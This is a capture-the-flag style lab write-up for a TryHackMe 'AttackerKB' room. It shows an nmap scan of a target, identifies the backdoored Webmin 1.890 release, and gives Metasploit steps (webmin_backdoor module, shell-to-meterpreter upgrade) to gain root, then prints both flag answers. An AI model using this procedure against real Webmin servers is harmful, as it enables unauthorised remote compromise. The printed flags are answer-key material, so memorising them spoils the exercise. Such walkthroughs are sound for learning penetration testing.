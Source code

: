 # AttackerKB



## Discovering the Lay of the Land
```
root@ip-10-10-190-100:~# sudo nmap -sS -A -script=vuln 10.10.28.69

Starting Nmap 7.60 ( https://nmap.org ) at 2022-01-05 01:53 GMT
Nmap scan report for ip-10-10-28-69.eu-west-1.compute.internal (10.10.28.69)
Host is up (0.025s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-litespeed-sourcecode-download: 
| Litespeed Web Server Source Code Disclosure (CVE-2010-2333)
| /index.php source code:
| <h1>Error - Document follows</h1>
|_<p>This web server is running in SSL mode. Try the URL <a href='https://ip-10-10-28-69.eu-west-1.compute.internal:10000/'>https://ip-10-10-28-69.eu-west-1.compute.internal:10000/</a> instead.<br></p>
|_http-majordomo2-dir-traversal: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-vuln-cve2010-0738: 
|_  /jmx-console/: Authentication was not required
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
MAC Address: 02:4E:81:22:40:9D (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=1/5%OT=22%CT=1%CU=40970%PV=Y%DS=1%DC=D%G=Y%M=024E81%TM
OS:=61D4FA52%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=108%TI=Z%CI=Z%TS=A)
OS:OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=
OS:M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6
OS:=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=
OS:O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD
OS:=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0
OS:%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI
OS:=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT      ADDRESS
1   24.62 ms ip-10-10-28-69.eu-west-1.compute.internal (10.10.28.69)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.04 seconds
```

- Webmin is a non-traditional service running on port 10000 and is running version `MiniServ 1.890`

## Learning To Fly
- [AttackerKB](https://attackerkb.com/) is similar to Exploit-DB but has a higher degree of information about vulnerabilities and exploits
- Search for `Webmin` in the search bar
- Find [this](https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection?referrer=search) article and find that Webmin 1.890 is immediately vunerable to this exploit, and it's a supply chain attacker
- [This](https://www.webmin.com/exploit.html) explains that the vunerability wasn't an accident; the Webmin dev build server was exploited and a vulnerability was purposely added
- A [metasploit module](https://github.com/rapid7/metasploit-framework/pull/12219) was added for the backdoor

## Blasting Away
- Start metasploit, search for webmin backdoor module with `search Webmin`, and we find the module `exploit/linux/http/webmin_backdoor`
```
msf5 > search Webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   3  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   4  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   5  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE


Interact with a module by name or index, for example use 5 or use exploit/unix/webapp/webmin_upload_exec
```

- `use exploit/linux/http/webmin_backdoor` and use `options` to see the required options. Then set the options and `exploit`
- This will run the exploit. It may seem like nothing is happening, but it's working. Now use `background` to send the current session to the background. Then use `use post/multi/manage/shell_to_meterpreter` and `set SESSION <session that webmin module is running in>` to start meterpreter in that session. Run `exploit` again and meterpreter will be started in a new session. Now use `sessions -i <session that meterpreter is running in>` to interact with meterpreter, and now we have access to Webmin's server
- Now let's navigate to `/home/dark` and `cat user.txt` to find `THM{SUPPLY_CHAIN_COMPROMISE}`. Then use `cat /root/root.txt` to get `THM{UPDATE_YOUR_INSTALL}`
